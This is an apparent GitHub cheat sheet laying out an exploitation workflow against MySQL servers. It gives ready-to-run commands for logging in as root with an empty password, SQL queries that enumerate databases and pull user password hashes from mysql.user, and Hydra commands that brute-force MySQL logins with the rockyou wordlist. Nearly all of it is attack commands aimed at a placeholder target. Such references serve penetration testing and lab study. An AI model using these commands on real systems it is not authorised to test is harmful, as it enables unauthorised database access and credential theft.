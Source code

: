 
## 💥 Exploitation Workflow

### Method 1: Direct Database Access

#### Authentication Bypass
```bash
# If root has no password
mysql -h <target-ip> -u root

# Test for empty password
mysql -h <target-ip> -u root -p
# (Press Enter when prompted for password)

# Using MySQL client options
mysql -h <target-ip> -u root --password=""
```

#### Database Exploration
```sql
-- Show all databases
SHOW DATABASES;

-- Use specific database
USE mysql;
USE information_schema;

-- Show tables
SHOW TABLES;

-- Describe table structure
DESCRIBE user;
DESCRIBE mysql.user;

-- Extract sensitive data
SELECT user,host,password FROM mysql.user;
SELECT schema_name FROM information_schema.schemata;
```

### Method 2: Brute Force Attack

#### Using Hydra
```bash
# Single username brute force
hydra -l root -P /usr/share/wordlists/rockyou.txt <target-ip> mysql

# Multiple usernames
hydra -L mysql_users.txt -P /usr/share/wordlists/rockyou.txt <target-ip> mysql

# Specific password list
hydra -l root -P mysql_passwords.txt <target-ip> mysql -t 4 -V
```
